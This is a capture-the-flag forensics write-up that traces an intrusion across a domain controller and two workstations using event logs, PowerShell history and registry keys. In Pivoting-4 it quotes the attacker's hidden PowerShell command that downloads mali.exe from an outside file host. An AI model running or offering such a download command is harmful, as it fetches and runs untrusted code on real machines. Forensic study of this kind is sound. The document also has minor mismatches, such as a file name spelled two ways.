 ```yaml
---
title: ICMTC CTF - Pivoting[1-7]
author: NourhanYousef
classes: wide
ribbon: red
header:
  teaser: /assets/images/icmtc-logo.png 
date: 2023-07-3 17:00:00 +0800
categories: CTF
description: "ICMTC CTF Digital Forensics pivoting challenges from 1 to 7..."
toc: true
---
```


**provided folders** : DC01, Workstation_1, workstation_2

**Used tools**: Event Viewer , registry explorer

---

# **Pivoting-1**

Q → What was the protocol used to logon to DC01?

in DC01 → eventlogs → logs

![Untitled](/assets/images/Pivoting/Untitled.png)

Upon analyzing the ***security*** logs file of **DC01** and filtering for Event ID 4624 (Logon Success) and 4648 (Logon with Explicit Credentials). During this examination, it was observed that the process "sshd.exe" was associated with these logon events. sshd.exe is the process responsible for facilitating SSH connections on the system. 

![Untitled](/assets/images/Pivoting/Untitled%201.png)

Flag ⇒ `EGCERT{SSH}`

---

# **Pivoting-2**

Q → What was the full path of the malicious downloaded file on Workstation_1?

In the ***workstation_1*** environment, within the **PowerShell →** **PSReadline,**  An analysis of the PowerShell activity revealed the presence of a script contained within a text file called ***ConsoleHost_history*** . the script downloads a file **axt_1.py** in C:\Program Files

flag ⇒ `EGCERT{C:\Program Files\atx_1.py}`

---

# **Pivoting-3**

Q → What is the name of the malicious executable that was downloaded on DC01?

exploring **DC01** ***windows PowerShell*** event logs I found a PowerShell script that downloads a file called mali.exe

![Untitled](/assets/images/Pivoting/Untitled%202.png)

flag ⇒ `EGCERT{mali.exe}`

---

# **Pivoting-4**

What was the command used to download the malicious executable on DC01? 

In the previous screenshot, a command was observed that indicates the downloading of a potentially malicious executable file. 

![Untitled](/assets/images/Pivoting/Untitled%203.png)

flag:

```php
EGCERT{powershell.exe -w hidden -noni -nop -exec EX [https://www.mediafire.com/file/3bytgnxqzimrns0/mali.exe](https://www.mediafire.com/file/3bytgnxqzimrns0/mali.exe)C:\Users\Administrator\Desktop\mali.exe}
```

---

# **Pivoting-5**

Q→ What was the technique used to access Workstation_2?

a significant number of failed logon attempts were identified. These logon attempts originated from a workstation named "kali" indicating that it was engaged in a brute force attack against workstation_2.

![Untitled](/assets/images/Pivoting/Untitled%204.png)

flag ⇒ `EGCERT{brute force}`

---

**Pivoting-6**

Q→ What was the entry point to the system? Note: Write the IP of the machine.

conducting the brute force attack on workstation_2 makes it seems to be the entry point of attack.  examining the registry of workstation_2 it would be found that in key **`SYSTEM\ControlSet001\Services\Tcpip\Parameters\Interfaces`** which contains network interface configurations and settings for the TCP/IP protocols 

looking at `subkey {7f91008d-beb6-41c6-9c5e-ade2ccbd964d}` I found `DhcpIPAddress` which  represents the IP address assigned to a network interface through DHCP

  

![Untitled](/assets/images/Pivoting/Untitled%205.png)

flag ⇒ `EGCERT{192.168.118.155}`

---

# **Pivoting-7**

Q→ Using the names (DCO1, Workstaion_1, Workstation_2),State the lateral movement sequence

as we found before, workstation_2 is the entry point, the next machine could be  Workstaion_1 or DC01, it’s more logical that Workstaion_1 is the next machine to move laterally then DC01

flag ⇒ `EGCERT{Workstation_2,Workstation_1,DC01}`

---